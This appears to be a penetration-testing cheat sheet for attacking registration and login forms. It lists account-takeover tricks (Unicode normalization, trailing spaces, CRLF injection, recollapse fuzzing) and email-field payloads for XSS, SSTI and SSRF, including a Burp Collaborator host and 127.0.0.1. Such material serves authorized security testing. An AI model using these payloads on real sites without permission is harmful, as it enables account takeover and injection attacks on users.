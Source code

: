 

                                                    **Login:**











                                                    **Register:**

1.  Unicode normalization:
Make 1 account(Zaggeb@gmail.com) and then log out.
Continue to with registering a new account with the same email, but change one of the letters in the email using:
https://gosecure.github.io/unicode-pentester-cheatsheet/

2. The space technique(Mysql varchar):

Make one account with zaggeb@yopmail.com or username zaggeb
Continue with making one more account, however do a space after the username, if that does not work. Do more spaces or try zaggeb[space]


3. The CLRF technnique

Register a first account with zaggeb@yopmail.com and complete it
Register further a new account and add %0d, example: zaggeb@yopmail.com%0d

See if it goes through.


4. The Recollapse technique (https://github.com/0xacb/recollapse)

Url encode and unicode normalization including raw format. Great for ATO, check https://github.com/0xacb/recollapse/blob/main/till_recollapse_fuzzing_the_web_for_mysterious_bugs.pdf

5. CLRF bypass:



                                                 ** Password Reset:**

<img src="https://pbs.twimg.com/media/FiRgcuUacAAUpKJ?format=jpg&name=large" alt="Alt text" title="Optional title">


**Payloads for xss,SSTI,SSRF:**

1. test+(<script>alert(0)</script>)@example.com
2. test@example(<script>alert(0)</script>).com
3. "<script>alert(0)</script>"@example.com
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSTI template injection:
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSRF:
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]